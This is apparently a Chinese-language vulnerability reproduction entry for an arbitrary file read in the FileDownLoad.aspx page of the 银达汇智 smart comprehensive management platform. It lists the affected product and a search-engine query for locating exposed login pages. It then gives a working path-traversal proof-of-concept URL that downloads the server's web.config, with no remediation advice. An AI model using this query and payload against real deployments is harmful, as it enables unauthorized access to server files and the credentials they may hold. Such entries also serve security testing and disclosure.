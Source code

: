 # 银达汇智 智慧综合管理平台 FileDownLoad.aspx 任意文件读取漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

<a-checkbox checked>银达汇智 智慧综合管理平台 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"汇智信息" && title="智慧综合管理平台登入"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627914977251-450973a6-e847-454b-817b-efa35fdc4aed-20220313134159838.png)

验证POC

```plain
http://xxx.xxx.xxx.xxx/Module/FileManagement/FileDownLoad.aspx?filePath=../../web.config
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1627915116676-c0c892b3-14d0-4b50-a97b-cbc0cd8d4dc9.png)